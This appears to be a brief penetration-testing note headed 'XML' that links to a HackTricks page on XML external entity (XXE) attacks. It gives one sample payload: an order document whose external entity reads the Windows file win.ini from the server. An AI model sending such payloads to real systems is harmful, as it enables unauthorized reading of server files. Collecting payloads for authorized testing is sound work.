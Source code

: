 # XML


https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity



<?xml version = "1.0"?>
<!DOCTYPE roossst [<!ENTITY test SYSTEM 'file:///C:/windows/win.ini'>]>
<order><quantity>3</quantity><item>&test;</item><address>test</address></order>


